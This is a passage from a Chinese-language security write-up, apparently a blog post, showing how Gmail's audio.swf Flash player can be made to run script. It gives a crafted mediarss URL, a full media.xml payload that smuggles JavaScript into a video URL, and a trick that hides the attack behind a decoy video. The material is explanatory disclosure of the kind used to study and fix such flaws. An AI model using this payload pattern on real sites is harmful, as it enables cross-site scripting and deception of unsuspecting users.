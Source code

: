 现在打开https://mail.google.com/mail/html/audio.swf?playerMode=normal&mediarss=http://localhost/gmail/media.xml&autoplay=true 我们惊喜地发现1.flv被成功地载入了, 看来swf对于从mediarss中传入的videoUrl, 并没有类似对url中传入videoUrl值的一个有效性验证, 短板理论在这里发挥了作用:)

为了更加完美地利用, 我们继续对media.xml进行一些小小的修改.

```
<rss version="2.0">
        <channel>
            <title>Google Video - Google Video top100 new</title>
            <link>http://video.google.com</link>
            <description>Google Video's top new videos.</description>
            <generator>Google Video</generator>
            <image>
                <title>Google Video top100 new</title>
                <link>http://video.google.com</link>
                <url>http://video.google.com/common/google_logo_small.jpg</url>
                <width>100</width>
                <height>37</height>
            </image>
            <item>
                <title>rubia</title>
                <link>http://video.google.com/videoplay?docid=-3406925506469882756&sourceid=top100newfeed</link>
                <guid>http://video.google.com/videoplay?docid=-3406925506469882756</guid>;
                <pubDate>Sun, 21 May 2006 17:00:00 PDT</pubDate>
                <description/>
                <author>individual</author>
                <media:group>
                    <media:content url="http://localhost/gmail/1.flv?');function FlashRequest(){alert(document.domain)}//" type="video/x-flv" medium="video" expression="full" duration="68" width="320" height="240"/>
                </media:group>
            </item>
            <item>
                <title>rubia</title>
                <link>http://video.google.com/videoplay?docid=-3406925506469882756&sourceid=top100newfeed</link>
                <guid>http://video.google.com/videoplay?docid=-3406925506469882756</guid>;
                <pubDate>Sun, 21 May 2006 17:00:00 PDT</pubDate>
                <description/>
                <author>individual</author>
                <media:group>
                    <media:content url="http://localhost/gmail/2.flv" type="video/x-flv" medium="video" expression="full" duration="68" width="320" height="240"/>
                </media:group>
            </item>
        </channel>
    </rss>

```

其中1.flv是一段黑色背景, 无任何内容, 长0.5秒的视频, 播放1.flv结束后, 触发了事件, 通过getURL执行了js脚本, 与此同时,swf开始播放2.flv, 这是一段真正的有内容的视频, 他可以为我们争取到足够的时间进行一些dirty work了. 那么对于点开视频的人来说, 这段时间内究竟发生了什么呢, 他只是照常点了一个连接,发现是一段有意思的小视频, 可能这段视频前面有0.5秒的停滞,但又有谁会注意到呢?
